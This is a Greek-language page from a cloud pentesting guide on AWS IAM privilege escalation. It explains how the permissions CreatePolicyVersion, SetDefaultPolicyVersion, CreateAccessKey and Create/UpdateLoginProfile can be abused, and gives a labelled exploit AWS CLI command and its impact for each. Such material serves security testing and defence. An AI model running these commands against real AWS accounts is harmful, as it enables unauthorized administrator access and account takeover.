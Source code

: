 # AWS - IAM Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## IAM

Για περισσότερες πληροφορίες σχετικά με το IAM, δείτε:

{{#ref}}
../../aws-services/aws-iam-enum.md
{{#endref}}

### **`iam:CreatePolicyVersion`**

Παρέχει τη δυνατότητα δημιουργίας νέας έκδοσης policy του IAM, παρακάμπτοντας την ανάγκη για την άδεια `iam:SetDefaultPolicyVersion` με τη χρήση της επιλογής `--set-as-default`. Αυτό επιτρέπει τον ορισμό προσαρμοσμένων δικαιωμάτων.

**Εντολή Εκμετάλλευσης:**
```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
--policy-document file:///path/to/administrator/policy.json --set-as-default
```
**Επίπτωση:** Αυξάνει άμεσα τα προνόμια επιτρέποντας οποιαδήποτε ενέργεια σε οποιονδήποτε πόρο.

### **`iam:SetDefaultPolicyVersion`**

Επιτρέπει την αλλαγή της προεπιλεγμένης έκδοσης μιας IAM policy σε άλλη υπάρχουσα έκδοση, ενδεχομένως αυξάνοντας τα προνόμια εάν η νέα έκδοση έχει περισσότερα δικαιώματα.

**Εντολή Bash:**
```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```
**Επίδραση:** Έμμεση κλιμάκωση προνομίων μέσω παροχής επιπλέον δικαιωμάτων.

### **`iam:CreateAccessKey`**

Επιτρέπει τη δημιουργία access key ID και secret access key για άλλον χρήστη, οδηγώντας σε πιθανή κλιμάκωση προνομίων.

**Εκμετάλλευση:**
```bash
aws iam create-access-key --user-name <target_user>
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων μέσω ανάληψης των εκτεταμένων δικαιωμάτων άλλου χρήστη.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**

Επιτρέπει τη δημιουργία ή ενημέρωση ενός προφίλ σύνδεσης, συμπεριλαμβανομένης της ρύθμισης κωδικών για σύνδεση στην κονσόλα AWS, οδηγώντας σε άμεση κλιμάκωση προνομίων.

**Exploit for Creation:**
```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Exploit για Ενημέρωση:**
```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Επίπτωση:** Άμεση privilege escalation μέσω σύνδεσης ως "any" user.
